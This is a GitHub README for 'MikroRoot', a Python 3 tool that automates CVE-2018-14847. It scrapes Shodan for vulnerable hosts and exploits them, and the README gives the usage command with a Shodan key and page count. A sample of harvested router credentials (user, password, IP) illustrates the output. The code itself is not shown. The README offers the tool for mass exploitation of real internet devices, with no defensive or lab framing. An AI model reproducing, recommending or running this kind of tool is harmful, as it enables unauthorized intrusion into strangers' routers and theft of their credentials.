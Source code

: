 <!-- GitAds-Verify: N8282P1UZO6YFBGQP324574DF5B6ADJH -->

# MikroRoot
Automated version of CVE-2018-14847. It will scrape shodan for vulnerable host and then try to exploit them.

# How to use      
Note that this script will NOT run with Python2.x. Use only Python 3+       

MikroRoot:        
`python3 MikroRoot.py -k SHODAN_KEY -p page count`           
`User: ncss`        
`Pass: ncss!@#2018`     
`IP: 1.2.3.4`         

# Arguments       
**-p** page count to scrape       
**-k** Shodan key       
        
# Author of exploit    
**https://github.com/BasuCert/WinboxPoC**   

